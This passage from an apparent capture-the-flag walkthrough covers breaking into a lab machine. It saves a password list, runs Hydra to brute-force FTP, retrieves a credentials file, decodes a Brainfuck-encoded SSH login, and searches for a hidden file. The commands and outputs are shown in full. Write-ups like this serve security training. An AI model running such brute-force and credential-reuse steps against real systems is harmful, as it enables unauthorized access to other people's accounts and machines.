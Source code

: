 ```
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```
Save these passwords inside a `wordlist.txt` file and run Hydra for bruteforcing FTP access:
```
hydra -l ftpuser -P wordlist.txt 10.10.165.50 ftp

[DATA] attacking ftp://10.10.165.50:21/
[21][ftp] host: 10.10.165.50   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
```
Then:
```
ftp 10.10.165.50 -n
Connected to 10.10.165.50.
220 (vsFTPd 3.0.2)
ftp> user
(username) ftpuser
331 Please specify the password.
Password: 5iez1wGXKfPKQ
230 Login successful.

ftp> get Eli's_Creds.txt
```
This file contains the following:
```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->---<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<++++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->-----<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >+++++<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
These characters are encoded as "Brainfuck Encoding". Their decoding is:
```
User: eli
Password: DSpDiM1wAEwid
```
Let's use them for connecting by SSH:
```
ssh 10.10.165.50 -l eli
eli@10.10.165.50's password: DSpDiM1wAEwid

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```
Let's search this hidden message:
```
find / -name "s3cr3t"

<SNIP>
/usr/games/s3cr3t
```